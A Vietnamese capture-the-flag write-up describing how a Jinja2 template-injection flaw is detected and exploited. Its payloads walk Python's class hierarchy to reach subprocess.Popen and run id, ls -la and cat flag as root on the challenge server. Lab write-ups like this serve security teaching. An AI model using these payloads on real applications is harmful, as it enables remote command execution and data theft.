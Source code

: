 ![alt text](image.png)
## 1.Enumeration
Trang chủ 
![alt text](image-1.png)
Ta phát hiện có lỗ hổng SSTI Template
Với input 
```bash
{{7*7}}
```
Ta thu được kết quả 
```bash
49
```
![alt text](image-2.png)
Với đầu vào 
```bash
{{7*'7'}}
```
Thu được kết quả 
```bash
7777777
```
![alt text](image-3.png)

**-> Đây khả năng là lỗ hổng SSTI trong framework Jinja2 Python**

## 2.Exploit
Xác địnhxem ta có thể thấy được  danh sách các lớp của Mro
```bash
{{ ''.__class__.__mro__ }}
```
Thu được kết quả 
```bash
(<class 'str'>, <class 'object'>)
```
![alt text](image-4.png)

Tìm danh sách các class con  có thể sử dụng được của lớp object() để khai thác SSTI.
Trỏ đến vị trí của object và liệt kê các lớp trong subclasses .
Ta tìm  thấy vị trí của subprocess.Popen lớp thực thi lệnh hệ thống  ở trong danh sách lớp con con của  __subclasses__()
Với khoảng chỉ số từ 350 đến 400 ta tìm được class subprocess.Popen .
```bash
{{''.__class__.__mro__[1].__subclasses__()[350:400]}}
```
![alt text](image-5.png)

&rarr; **subprocess.Popen ở vị trí 356** 
```bash
{{''.__class__.__mro__[1].__subclasses__()[356]}}
```
![alt text](image-6.png)

Ta gọi lớp subprocess.Popen và thực thi câu lệnh id 
```bash
{{''.__class__.__mro__[1].__subclasses__()[356]('id', shell=True, stdout=-1).communicate()[0]}}
```
Kết quả trả về là câu lệnh đã được thực thi 
```bash
b'uid=0(root) gid=0(root) groups=0(root)\n'
```
![alt text](image-7.png)
Kiểm tra các thư mục hiện tại trên hệ thống bằng câu lệnh ls -la

```bash
{{''.__class__.__mro__[1].__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0]}}
```

Kết quả thu được ta tìm được file chứa cờ là flag

```bash
b'total 12\ndrwxr-xr-x 1 root root 25 Mar 10 12:37 .\ndrwxr-xr-x 1 root root 23 Mar 10 12:37 ..\ndrwxr-xr-x 2 root root 32 Mar 10 12:37 __pycache__\n-rwxr-xr-x 1 root root 1241 Mar 6 03:27 app.py\n-rw-r--r-- 1 root root 58 Mar 6 19:43 flag\n-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt\n'
```
![alt text](image-8.png)

Thực thi câu lệnh cat flag ta thu được cờ 

```bash
{{''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0]}}
```
![alt text](image-9.png)